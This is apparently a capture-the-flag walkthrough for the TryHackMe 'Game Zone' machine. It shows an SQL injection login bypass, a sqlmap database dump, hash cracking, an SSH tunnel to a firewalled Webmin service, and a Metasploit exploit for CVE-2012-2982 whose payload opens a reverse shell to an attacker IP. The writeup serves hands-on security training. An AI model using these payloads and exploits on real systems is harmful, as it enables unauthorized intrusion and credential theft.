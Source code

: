 # Game Zone

Link: [Game Zone](hhttps://tryhackme.com/room/gamezone)

## High-Level Overview

Hack into a machine using SQLMap, cracking passwords offline and revealing services using a reverse SSH tunnel.

## Tools Needed

* Nmap
* Gobuster
* BurpSuite
* SQLMap

## Walkthrough

Connect to the TryHackMe VPN using your `user.name.ovpn` configuration file you can download at `https://tryhackme.com/r/access` and the `openvpn` CLI tool:

```bash
$ sudo openvpn user.name.ovpn
```

Edit the `/etc/hosts` file on your machine to include the IP of the TryHackMe remote machine and a hostname you desire:

```bash
$ sudo nano /etc/hosts
```

```
MACHINE:IP     gamezone.thm
```

After starting the machine, we perform an initial scan using `nmap`:

```bash
$ sudo nmap -sS -p- -Pn -A -vv -T5 gamezone.thm
```

The following ports & services were identified:

* 22 - ssh
* 80 - http

Since there is a web application running, we can use `gobuster` for further enumeration:

```bash
$ gobuster dir -u http://gamezone.thm -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php, php5, htm, html
$ gobuster vhost -u http://gamezone.thm -w /usr/share/seclists/Discovery/DNS/fierce-hostlist.txt
```

We find 2 interesting results: `/index.php` and `/portal.php`.

On the main page of the application, we can log in using a simple SQL Injection attack by writing the SQL query `' or 1=1 -- -` in the `username` field, and leaving the `password` field blank.

There isn't much we can do now that we logged in, however, since this web application is vulnerable to SQL Injection, we can dump the whole database.

To do this, we must first make a web request by querying the vulnerable search field, and capture it using `BurpSuite`. The request looks like:

```
POST /portal.php HTTP/1.1
Host: MACHINE:IP
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://MACHINE:IP/portal.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 12
Origin: http://MACHINE:IP
Connection: close
Cookie: PHPSESSID=hkjiiqj8ufdn64uc50tj0hrnt4
Upgrade-Insecure-Requests: 1

searchitem=1
```

We can save the request contents to a file named `request.txt` and then use `SQLMap` with the following command:

```bash
$ sqlmap -r request.txt --dbms=mysql --dump
# try cracking the hashes with a dictionary attack and select the following options to use a custom wordlist
# 2
# /usr/share/wordlists/rockyou.txt
```

After successfully running the command, we get some credentials:

```
+----------------------------------------------------------------------------------+----------+
| pwd                                                                              | username |
+----------------------------------------------------------------------------------+----------+
| ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14 (videogamer124) | agent47  |
+----------------------------------------------------------------------------------+----------+
```

The CTF tasks us with cracking the hash using `John the Ripper`. While we already did this using SQLMap, we can also use `John the Ripper`. Save the password hash to a file named `hash`, then use the following command:

```bash
john hash --wordlist /usr/share/wordlists/rockyou.txt --format=RAW-SHA256
```

With this set of credentials, we can log in on the machine using SSH:

```bash
$ ssh agent47@gamezone.thm
# videogamer124
```

In the home folder of `agent47` we can find our first flag, the file named `user.txt`.

Now that we have initial access to this machine, we need to find a way to escalate privileges.

The challenge tells us to investigate what socket connections are running on this host. In this SSH connection we can run the command:

```bash
$ ss -tulpn -t
```

The instructions say that a service running on port 10000 is blocked using a firewall rule. We need to expose this tunnel by running the following command on our attacking machine:

```bash
$ ssh -L 10000:localhost:10000 agent47@gamezone.thm
```

Still on our attacking machine, we can access this service by visiting `http://localhost:10000/` in our browser. Our previous credentials are still valid here and we can get access to the admin interface.

Next, we are tasked with using `Metasploit` and an appropriate payload to get root access.

We can search online for exploits affecting Webmin version 1.580. We come across this: `https://www.exploit-db.com/exploits/21851`.

We can open `Metasploit` on our machine and run the following instructions to configure our exploit:

```bash
$ msfconsole
> search CVE-2012-2982
> use 0
> set payload cmd/unix/reverse
> show options
# set up target variables
> set rhosts 127.0.0.1
# since we have a reverse ssh connection
> set rport 10000
> set username agent47
> set password videogamer124
> set lhost ATTACKER:IP
# replace with your IP
> set SSL false
> exploit
```

We should now have a reverse shell as `root`, which we can verify by typing `whoami`. Our final flag is located at `/root/root.txt`.